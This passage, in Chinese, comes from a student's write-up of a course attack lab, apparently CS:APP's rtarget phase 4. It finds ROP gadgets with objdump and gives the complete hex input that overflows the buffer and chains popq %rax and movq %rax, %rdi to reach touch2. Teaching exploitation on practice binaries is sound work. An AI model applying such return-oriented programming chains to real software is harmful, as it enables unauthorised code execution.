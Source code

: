 就能实现参数的赋值了，当 `ret` 后，从栈中取出来的程序地址再设置为 `touch2` 的地址就能成功解决本题

但是后来发现在 `farm` 中找不到这条指令的 `gadget`，经过多次尝试，只好用其他寄存器进行中转，考虑用两个 `gadget`

```assembly
popq %rax
ret
###############
movq %rax, %rdi
ret
```

### 栈帧讲解

根据我们的思路，栈帧情况如下：

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305153502546.png)

逻辑如下：

- `getbuf` 执行 `ret`，从栈中弹出返回地址，跳转到我们的 `gardget01`
- `gadget01` 执行，将 `cookie` 弹出，赋值给 `%rax`，然后执行 `ret`，继续弹出返回地址，跳转到 `gardget2`
- `gardget2` 执行，将 `cookie` 值成功赋值给参数寄存器 `%rdi`，然后执行 `ret`，继续弹出返回地址，跳转到 `touch2`

### Solution

首要问题是找到我们需要的 `gadget`

先用如下指令得到 `target` 的汇编代码及字节级表示

```assembly
objdump -d rtarget > rtarget.s
```

查表知，`pop %rax` 用 `58` 表示，于是查找 `58`

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
```

得到指令地址为 `0x4019ab`

`movq %rax, %rdi` 表示为 `48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略

```assembly
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
```

得到指令地址为 `0x4019c5`

根据上图的栈帧，就能写出我们的输入序列：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
